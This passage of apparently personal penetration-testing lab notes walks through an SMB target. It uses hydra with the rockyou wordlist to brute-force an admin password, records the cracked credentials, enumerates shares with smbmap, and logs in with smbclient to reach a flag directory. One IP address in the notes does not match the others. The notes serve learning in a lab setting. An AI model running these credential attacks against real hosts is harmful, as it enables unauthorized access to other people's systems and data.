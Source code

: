 > 📌 Jane's password is `abc123`

#### [hydra](https://www.kali.org/tools/hydra/)

{% content-ref url="http://127.0.0.1:5000/s/iS3hadq7jVFgSa8k5wRA/pratical-ethical-hacker-notes/hydra" %}
[Hydra](http://127.0.0.1:5000/s/iS3hadq7jVFgSa8k5wRA/pratical-ethical-hacker-notes/hydra)
{% endcontent-ref %}

> [**`hydra`**](https://github.com/vanhauser-thc/thc-hydra) - tool to guess/crack valid login/password pairs

* Use `hydra` tool to find _admin_ user password

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.174.58.6 smb
```

```bash
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.174.58.6:445/
[445][smb] host: 192.174.58.6   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

> 📌 _admin_'s password is `password1`

* Find `smb shares` using found credentials

```bash
smbmap -u admin -p password1 -H 192.174.58.6
```

```bash
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.174.58.6...
[+] IP: 192.174.58.6:445        Name: target-1                                          
   Disk     Permissions
   ----     -----------
   shawn    READ, WRITE
   nancy    READ ONLY
   admin    READ, WRITE
   IPC$     NO ACCESS
```

> 📌 _Read-only_ share is `nancy`

```bash
smbclient -L 192.28.157.6 -U jane
# Use "abc123" password
```

```bash
smbclient //192.174.58.6/jane -U jane
```

```bash
smb: \> ls
  .      D  0  Tue Nov 27 19:25:12 2018
  ..     D  0  Tue Nov 27 19:25:12 2018
  admin  D  0  Tue Nov 27 19:25:12 2018
  logs   D  0  Tue Nov 27 19:25:12 2018
  flag   D  0  Tue Nov 27 19:25:12 2018
  1981084628 blocks of size 1024. 48016456 blocks available
smb: \> pwd
Current directory is \\192.174.58.6\jane\
```
